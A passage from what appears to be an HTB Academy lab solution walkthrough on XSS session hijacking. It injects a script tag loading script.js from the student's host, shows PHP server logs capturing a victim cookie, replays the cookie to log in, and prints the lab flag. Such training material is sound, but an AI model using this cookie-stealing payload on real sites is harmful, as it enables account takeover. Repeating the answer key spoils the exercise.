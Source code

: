 Subsequently, students need to start a PHP server (using a port number other than 80, since it is already in use in Pwnbox) in `/tmp/tmpserver` where "index.php" exists and, make sure that `PWNIP` matches the one used in "script.js":

Code: php

```php
php -S 0.0.0.0:8080
```

```javascript
┌─[us-academy-1]─[10.10.14.55]─[htb-ac413848@pwnbox-base]─[/tmp/tmpserver]
└──╼ [★]$ php -S 0.0.0.0:8080

[Mon Jul 18 05:20:12 2022] PHP 7.4.21 Development Server (http://0.0.0.0:8080) started
```

Afterward, students need to use the XSS payload first used to identify the vulnerable "Profile Picture URL" parameter again:

Code: javascript

```javascript
"><script src=http://PWNIP:PWNPO/script.js></script>
```

![[HTB Solutions/CBBH/z. images/dfb8b032e56e6ee75d8fef11003c8997_MD5.jpg]]

After clicking on the "Register" button, students will notice that the PHP server listening has grabbed a cookie with the value `c00k1355h0u1d8353cu23d`:

```javascript
[Mon Jul 18 09:43:33 2022] 10.129.122.121:48154 Accepted
[Mon Jul 18 09:43:33 2022] 10.129.122.121:48154 [200]: (null) /script.js
[Mon Jul 18 09:43:33 2022] 10.129.122.121:48154 Closing
[Mon Jul 18 09:43:33 2022] 10.129.122.121:48156 Accepted
[Mon Jul 18 09:43:33 2022] 10.129.122.121:48156 [200]: GET /index.php?c=cookie=c00k1355h0u1d8353cu23d
[Mon Jul 18 09:43:33 2022] 10.129.122.121:48156 Closing
```

Thus, students need to visit `/hijacking/login.php` and add the grabbed cookie as `cookie:c00k1355h0u1d8353cu23d` under the "Storage" tab in Firefox:

![[HTB Solutions/CBBH/z. images/ab42819b5e66afceaa906005f70d3131_MD5.jpg]]

Then at last, students need to refresh the page to attain the flag:

![[HTB Solutions/CBBH/z. images/52a1eb11fde430ff5a7e9db7a01147e4_MD5.jpg]]

Answer: `HTB{4lw4y5_53cur3_y0ur_c00k135}`

# Skills Assessment

## Question 1
